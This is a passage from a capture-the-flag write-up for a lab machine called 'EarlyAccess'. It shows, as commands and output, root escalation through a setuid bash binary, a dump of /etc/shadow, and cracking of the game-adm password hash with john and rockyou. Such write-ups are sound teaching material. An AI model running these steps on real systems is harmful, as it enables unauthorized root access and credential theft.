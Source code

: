 ```bash
drew@earlyaccess:~$ ssh game-tester@172.19.0.3
Linux game-server 4.19.0-17-amd64 #1 SMP Debian 4.19.194-3 (2021-07-18) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Feb  3 16:55:48 2022 from 172.19.0.1
-bash-4.4$
```

Due to how docker is handling containers, the container got assigned a new IP and is now available at 172.19.0.3. We can now ssh back into the container. We successfully changed bash to a setuid-binary and can now run arbitrary commands on the server as root. If we execute the bash binary using the `-p` flag our euid gets set to 0 (root).

```bash
-bash-4.4$ id
uid=1001(game-tester) gid=1001(game-tester) groups=1001(game-tester)
-bash-4.4$ /bin/bash -p
bash-4.4# id
uid=1001(game-tester) gid=1001(game-tester) euid=0(root) egid=0(root) groups=0(root),1001(game-tester)
```

Now that we are root let us read `/etc/shadow` to see if `game-adm` has a password set.

```bash
bash-4.4# cat /etc/shadow 
root:*:18758:0:99999:7:::
[...]
node:!:18759:0:99999:7:::
[...]
game-tester:!:18773:0:99999:7:::
game-adm:$6$zbRQg.JO7dBWcZ$DWEKGCPIilhzWjJ/N0WRp.FNArirqqzEMeHTaA8DAJjPdu8h52v0UZncJD8Df.0ncf6X2mjKYnH19RfGRneWX/:18822:0:99999:7:::
```

Seems like `game-adm` has a password set!

#### Cracking game-adm password hash

Let us copy the hash and try to crack it using john or hashcat.

```bash
root@void:~# cat hash.txt 
game-adm:$6$zbRQg.JO7dBWcZ$DWEKGCPIilhzWjJ/N0WRp.FNArirqqzEMeHTaA8DAJjPdu8h52v0UZncJD8Df.0ncf6X2mjKYnH19RfGRneWX/:18822:0:99999:7:::
```

#### Using john

```bash
root@void:~# john hash.txt -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
gamemaster       (game-adm)
1g 0:00:00:05 DONE (2022-02-03 12:06) 0.1785g/s 2422p/s 2422c/s 2422C/s 120806..sugar123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

